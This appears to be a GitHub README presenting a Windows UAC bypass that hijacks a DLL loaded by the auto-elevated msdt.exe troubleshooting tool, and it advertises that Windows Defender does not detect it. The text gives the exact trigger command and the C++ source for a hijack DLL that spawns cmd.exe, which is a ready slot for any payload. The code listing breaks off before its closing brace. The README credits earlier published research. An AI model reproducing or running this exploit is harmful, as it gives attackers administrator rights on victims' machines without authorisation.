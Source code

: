 <iframe width="560" height="315" src="https://www.youtube.com/embed/s4QYZsq32mo?si=IB74bAqzh7zNgIKC" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

***UAC Bypass #3 - Using Micrososft's Troubleshooting Tool to elevate to Admin! (Detection Status: Undetected via Windows Defender)***
-

Credit first and foremost goes to Emeric Nasi, who discovered this quite some time ago.  All I did was repurpose it for my own needs and present it in a way that is understandable and accessible to you the reader 😸  His original article on this particular UAC bypass technique can be found here: [https://blog.sevagas.com/?MSDT-DLL-Hijack-UAC-bypass](https://blog.sevagas.com/?MSDT-DLL-Hijack-UAC-bypass)

The affected executable is `c:\windows\syswow64\msdt.exe` and we will be seizing the opportunity to exploit a DLL that is vulnerable to DLL hijacking. The reason for the `syswow64` directory is because the vulnerable DLL is the x86/32 bit version, and it will ultimately be loaded by `C:\WINDOWS\SysWOW64\sdiagnhost.exe` which follows the initial loading of `msdt.exe`.  The DLL in question is: `BluetoothDiagnosticUtil.dll`

In order to pull this off, all we need to do is run the following command: 

`c:\windows\syswow64\msdt.exe -path C:\WINDOWS\diagnostics\index\BluetoothDiagnostic.xml -skip yes`

I'm not going to go into detail as to why it works.  I'd recommend reading Emeric's article to understand how he worked it out.  I can say that like most UAC bypass exploits, the msdt.exe is auto-elevated.  The auto-elevation portion depends on the .xml file though.

We also need our own custom .dll to execute our cmd.exe for demo purposes.  I used the following code for mine (Be sure to set your project to compile this as x86):

![image](https://github.com/user-attachments/assets/66cec1d0-c268-4302-8997-d767a2d3a4c5)

```cpp
#include "pch.h"
#include <iostream>
#include <windows.h>
void executor()
{

        STARTUPINFO si = { sizeof(STARTUPINFO) };
        si.dwFlags = STARTF_USESHOWWINDOW;
        si.wShowWindow = SW_SHOWNORMAL;  // Ensures the console window is visible

        PROCESS_INFORMATION pi;

        if (CreateProcess(
            L"C:\\Windows\\System32\\cmd.exe", // Application path
            NULL,                            // Command line args
            NULL,                            // Process handle not inheritable
            NULL,                            // Thread handle not inheritable
            FALSE,                           // Inherit handles
            CREATE_NEW_CONSOLE,              // Ensures a new console window
            NULL,                            // Use parent's environment
            NULL,                            // Use parent's starting directory
            &si,                             // Pointer to STARTUPINFO
            &pi)                             // Pointer to PROCESS_INFORMATION
            )
        {
            CloseHandle(pi.hProcess);
            CloseHandle(pi.hThread);
        }
        else
        {
            std::cerr << "Failed to start cmd.exe. Error: " << GetLastError() << std::endl;
        }
```